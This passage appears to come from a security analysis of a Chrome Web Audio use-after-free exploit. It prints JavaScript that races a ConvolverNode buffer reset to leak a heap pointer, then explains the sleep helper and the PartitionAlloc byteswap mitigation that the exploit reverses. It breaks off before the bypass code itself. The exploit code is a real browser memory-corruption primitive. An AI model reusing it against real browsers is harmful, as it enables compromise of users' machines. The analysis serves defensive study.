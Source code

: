 async function triggerUaF(doneCb) { let audioCtx = new OfflineAudioContext(2, 0x400000, 48000); let bufferSource = audioCtx.createBufferSource(); let convolver = audioCtx.createConvolver(); let scriptNode = audioCtx.createScriptProcessor(0x4000, 1, 1); let channelBuffer = audioCtx.createBuffer(1, 1, 48000);  convolver.buffer = channelBuffer; bufferSource.buffer = channelBuffer;  bufferSource.loop = true; bufferSource.loopStart = 0; bufferSource.loopEnd = 1;  channelBuffer.getChannelData(0).fill(0);  bufferSource.connect(convolver); convolver.connect(scriptNode); scriptNode.connect(audioCtx.destination);  bufferSource.start();  let finished = false;  scriptNode.onaudioprocess = function(evt) {    		let channelDataArray = new Uint32Array(evt.inputBuffer.getChannelData(0).buffer);     		for (let j = 0; j < channelDataArray.length; j++) {        		if (j + 1 < channelDataArray.length && channelDataArray[j] != 0 && channelDataArray[j + 1] != 0) {            			let u64Array = new BigUint64Array(1);            			let u32Array = new Uint32Array(u64Array.buffer);            			u32Array[0] = channelDataArray[j + 0];            			u32Array[1] = channelDataArray[j + 1];             			let leakedAddr = byteSwapBigInt(u64Array[0]);            			if (leakedAddr >> BigInt(32) > BigInt(0x8000))                			leakedAddr -= BigInt(0x800000000000);             			let superPageBase = getSuperPageBase(leakedAddr); 	             		if (superPageBase > BigInt(0xFFFFFFFF) && superPageBase < BigInt(0xFFFFFFFFFFFF)) {                			finished = true;                			evt = null;                 			bufferSource.disconnect();                			scriptNode.disconnect();                			convolver.disconnect();                 			setTimeout(function() {                     			doneCb(leakedAddr);                			}, 1);                 			return;            			}        		}    		} };  audioCtx.startRendering().then(function(buffer) {    		buffer = null;     		if (!finished) {        	 	finished = true;       	  	triggerUaF(doneCb);    		} });  while (!finished) {    		convolver.buffer = null;    		convolver.buffer = channelBuffer;    		await later(100); // wait 100 millseconds }};




This function is executed recursively. It fills the audio channel buffer with zeros, starts rendering offline and at the same time runs a loop that nullifies and resets the channel buffer of the ConvolverNode object and tries to trigger a bug. The exploit uses the later() function to simulate the Sleep function, suspend the current thread and let the Render and Audio threads finish execution right on time:





function later(delay) {
	return new Promise(resolve => setTimeout(resolve, delay));
}




123

function later(delay) { return new Promise(resolve => setTimeout(resolve, delay));}




During execution the exploit checks if the audio channel buffer contains any data that differs from the previously set zeroes. The existence of such data would mean the UAF was triggered successfully and at this stage the audio channel buffer should contain a leaked pointer.
The PartitionAlloc memory allocator has a special exploit mitigation that works as follows: when the memory region is freed, it byteswaps the address of the pointer and after that the byteswapped address is added to the FreeList structure. This complicates exploitation because the attempt to dereference such a pointer will crash the process. To bypass this technique the exploit uses the following primitive that simply swaps the pointer back:

